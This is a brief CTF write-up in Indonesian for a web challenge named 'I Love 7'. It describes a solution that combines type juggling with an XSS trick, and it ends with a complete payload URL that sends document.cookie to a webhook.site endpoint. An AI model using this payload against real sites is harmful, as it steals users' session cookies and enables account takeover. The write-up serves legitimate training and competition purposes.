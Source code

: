 # I Love 7

Description:
```
"7 * 1 = 7
7 * 2 = 14
7 * 3 = 21
7 * ? = ??

Link: xxx
Author: daffainfo"
```
### Cara Solve

* Diawali dengan Type Juggling (Payload harus diawali dengan angka)

    Referensi: https://twitter.com/KN0X55/status/1738004376353214636

* Kemudian diikuti dengan menggunakan tips bug bounty dari tweet [ini](https://twitter.com/Rhynorater/status/1696862832841916679) atau bisa melihat penjelasannya di video [LiveOverflow](https://www.youtube.com/watch?v=3zShGLEqDn8)

    ```
    http://app:8080/?digit=7,location=%22javascript:location.replace\x28\x22https://webhook.site/55c3d793-e738-4718-98b3-3bb9d3b5208f/?\x22%2bdocument.cookie\x29%22
    ```